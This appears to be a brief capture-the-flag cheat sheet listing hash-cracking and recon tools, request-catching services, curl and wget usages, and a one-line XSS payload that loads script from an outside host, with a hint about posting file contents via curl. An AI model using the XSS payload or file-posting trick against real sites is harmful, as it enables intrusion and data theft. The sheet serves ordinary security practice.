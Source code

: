 ## General

### Hash Cracking

* [crackstation](https://crackstation.net/)
* john
* hashcat
* hashid
* haiti

## Web

* sublist3r

### Links

* [requestcatcher.com](https://requestcatcher.com/)
* [requestbin.net](https://requestbin.net/)

### curl

Get verbose request
```bash
curl -v url
```

Make post request
```bash
curl -X POST url
# or
curl -d data url
```
> Hint:
>
> -d could be `cat file`

### wget

Crawler
```bash
wget --spider -r -nv --level {0,N} -e robots=off url
```

### XSS

14.rs
```html
<script src="//14.rs"></script>
```

## Binary Exploit

* Ghidra
